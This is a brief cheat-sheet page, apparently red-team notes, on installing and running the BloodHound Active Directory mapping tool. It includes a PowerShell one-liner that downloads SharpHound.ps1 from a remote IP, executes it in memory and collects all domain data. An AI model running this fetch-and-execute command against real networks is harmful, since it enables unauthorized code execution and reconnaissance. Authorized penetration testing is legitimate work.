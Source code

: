 # BloodHound

### Install

{% embed url="https://bloodhound.readthedocs.io/en/latest/installation/linux.html" %}

Start neo4j

```
 /usr/bin/neo4j console
```

Start BloodHound

```
bloodhound &
```

Powershell

```
 iex(New-Object Net.Webclient).downloadstring("http://192.168.X.Y/SharpHound.ps1"); 
 
 Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\windows\temp\
```
